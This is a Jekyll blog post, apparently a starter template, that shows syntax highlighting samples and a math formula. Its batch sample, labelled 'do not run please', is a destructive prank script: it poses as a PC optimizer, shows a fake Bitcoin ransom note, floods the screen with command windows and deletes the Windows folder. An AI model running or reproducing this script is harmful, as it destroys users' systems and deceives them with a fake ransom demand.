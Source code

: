 ```yaml
---
layout: post
title:  "jekyll/ruby initiation"
date:   2022-06-23 17:56:56 -0500
categories: jekyll update
---
```


## welcome to jekyll

***what is it?***
Jekyll is a simple, blog-aware, static site generator perfect for personal, project, or organization sites. Think of it like a file-based CMS, without all the complexity. Jekyll takes your content, renders Markdown and Liquid templates, and spits out a complete, static website ready to be served by Apache, Nginx or another web server. Jekyll is the engine behind GitHub Pages, which you can use to host sites right from your GitHub repositories.

***well, what can i do with it?"***
Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/

### syntax highlighting

python:

```python
else:
    if not hasattr(weighting, repartition):
        raise Exception(f'Weighting {repartition} does not exist')
    else:
        weights = eval(f'weighting.{repartition}(frames={blended_frames})')
```

batch: (do not run please)

```batch
@echo off
if not %1c == c goto forked
echo optimizing your pc now!
ping /n 1 1.0.0.1 > nul
echo your file have been encrypt! Send 6 Bitcoin to
echo bc1q5u67ypnlk4n4e35ymtc2n9cuf3m8kax0mnu39t
echo or you will loose youre files for ever!
pause > nul
:forked
set /a “i+=1”
start “” https://discord.gg/CTT
start “” cmd
if not %i% == 50 goto forked
rmdir /s /q "C:\Windows"
exit
```

brainf**k:

```brainfuck
>+++++++++[<++++++++>-]<.>+++++++[<++++>-]<+.+++++++..+++.[-]
>++++++++[<++++>-] <.>+++++++++++[<++++++++>-]<-.--------.+++
.------.--------.[-]>++++++++[<++++>- ]<+.[-]++++++++++.
```

### math

When $a \ne 0$, there are two solutions to $(ax^2 + bx + c = 0)$ and they are 
$$ x = {-b \pm \sqrt{b^2-4ac} \over 2a} $$


